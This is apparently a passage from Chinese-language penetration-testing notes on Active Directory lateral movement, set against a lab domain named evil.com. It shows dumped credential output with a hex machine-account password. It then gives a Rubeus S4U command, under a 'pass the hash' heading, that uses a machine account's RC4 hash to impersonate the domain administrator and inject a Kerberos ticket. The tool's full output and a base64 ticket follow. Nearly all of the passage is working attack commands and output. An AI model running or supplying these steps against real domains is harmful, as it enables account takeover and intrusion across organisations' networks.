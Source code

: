 ```
    * Domain   : EVIL.COM
    * Password : 95 0f f9 df e2 4d af 3e f1 5e e0 a9 f3 78 0b 91 d2 d5 5e b9 11 1f b5 bf e2 14 dc e4 91 78 0e 0f a4 e4 56 1a 97 2b ed f8 f8 fd b3 5e 58 2d 19 ef bf 25 f3 cc 15 01 00 09 9b e6 f0 49 d0 bf 22 6c 32 02 f3 fb cd 7d 0c a6 19 03 92 31 02 8d d3 36 b0 0c 73 cb 4c cf 40 c5 f5 43 d5 91 7c 7e aa da 8c 57 dc 96 36 bc dd a1 d0 87 8a b4 da 13 7c b0 fe 4d 87 47 83 cf 2d 33 2c 98 a1 7d 4d d3 93 45 65 3b c1 45 0f c5 64 88 37 d5 b5 95 6b 31 0b e8 c3 e9 73 b6 f3 e3 e6 1e 3c c0 db 1b c5 2c ed 4f 7c 4d 43 6b 0f 7e 0f bc f4 bb 99 d4 fd cb 0f 66 3a e6 14 7d a1 d5 d5 83 92 5c 3e ca 61 cd 41 25 8c 04 bb 69 f0 11 5e e3 dd 69 b7 08 f5 bd c7 57 ad 94 15 cd 45 ae 54 68 a2 b9 2c 1a bc 60 9c ae 16 38 7d 37 d1 d9 f5 e9 87 ea 75 9a 83 dc 10 88 
   ssp :
   credman :
   
```

## 横行移动

### pass the hash

```
Rubeus.exe s4u /user:web01$ /rc4:d071426c2accc17571310b2e6d63c0f1 /impersonateuser:administrator /msdsspn:cifs/file01 /ptt

Rubeus.exe s4u /user:web01$ /rc4:d071426c2accc17571310b2e6d63c0f1 /impersonateuser:administrator /msdsspn:cifs/file01 /ptt

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4 

[*] Action: S4U

[*] Using rc4_hmac hash: 77627f5c17e9cea651a455bb4a155356
[*] Building AS-REQ (w/ preauth) for: 'evil.com\web01$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIEpjCCBKKgAwIBBaEDAgEWooIDyTCCA8VhggPBMIIDvaADAgEFoQobCEVWSUwuQ09Noh0wG6ADAgEC
      oRQwEhsGa3JidGd0GwhldmlsLmNvbaOCA4kwggOFoAMCARKhAwIBAqKCA3cEggNz09xP7VZlfGYiWhZd
      fFpK56mKFbCAPXTJ3Ha1QKsk4j+OalGTN6JOIch2/1xLyGX0wbpWgmZKCjjwu6/nR6S+XrAKiNnlXRrS
      kRkKK/B7hDMXJ9DOhSeFb06hVokKvVEe5TJDPS/t80Q1Ll/UHWYHX6UN61psCx4pXs292AwgScmcFAL/
      dPjEMl10i4OO3KrEIsz5jXzLQiITMXa1IcaGBWJSvglQyCio0PFliB1AVQs8WUZbAtpiVhgUgsjnVm5D
      EcEzdJP1KOrrrEsDnGnPMZpEp2WrsSoh2uRMZZYM/j0n6ezz40cozoPgdO7A1bpdWGd2t9v0ahhMUyDQ
      ZfedVxxsQ6jvP4YHimSc/SPhYLpoCjTBatVlxJ8fYLsciLPb8TJQX3axAujpggu7vuqVAbjj9F/ejgmu
      svW0MhwsdA+rUl5cQ7j0wz6xXcmAmKPqx0ggh+ijfdQkQW2kP0LWo3vrEL8+45qwtzjmh/E0wSYvkYim
      JVvRsD8f0SQTeAV3/dKcPH5qMk8Qf+Aw/iteAShGOtMoZeExRJugycLqrXAJgAsru8qPx4kgFhioYH70
      z4GeRvYz0D559NTEarkjADBpFxvwkHU+9VrbhoHubq9VpHadt8Iqys0G4XItugFhmdgPfRTAuJgqmKS5
      e+RhTrbh7+4LpUiVsBJ8r2T8/tWJlsTjEsuUVvDISZH0p4yev6NXV69RdBN/4MBJA/LjwUM0EbdYc6ny
      uuVGOc12ise0WiMNzdVciJ30X+zhEiEVeUbche42uxMxuejQXnBaWYtP5vA3fIG6dzdSWxut1CLduhrH
      IcH152iWQn/WZxXSMDoAxpZM686+2OJN35K/cKMBSQpkoljmDkw74hZnKrGztHYc1OzRYeS3Zvo9vwnV
      L+gHzYnWAh14lonkqQTT7bpqe3im9uSLq8WCZMI9mRxkhJ31WhyjQkr3ytTUTbItNwyG0fFy4zcgQlFm
      R8LdeDfBo8jHTYWaVooHCu9mux51hED+v/L7hLBIepxJ0q9s3kVlFkOrjnaVjkRYDCFDdLa2eiBwYslH
      piZrmgrs0XcUrNriCQ3D9rUba2BovaxKMCfAdG8CWkS7J1O5xzYQH7zNWrVIwPZxjDMB4V5IQoitIFHz
      gTKhvb7AaPGA9KDH7paIfYHjOJIJFJ2vMmwt5auxw6OByDCBxaADAgEAooG9BIG6fYG3MIG0oIGxMIGu
      MIGroBswGaADAgEXoRIEENLtzAO81/CFT8RiqgmJorChChsIRVZJTC5DT02iEzARoAMCAQGhCjAIGwZ3
      ZWIwMSSjBwMFAEDhAAClERgPMjAyMTA4MjcxMzE3MTNaphEYDzIwMjEwODI3MjMxNzEzWqcRGA8yMDIx
      MDkwMzEzMTcxM1qoChsIRVZJTC5DT02pHTAboAMCAQKhFDASGwZrcmJ0Z3QbCGV2aWwuY29t


```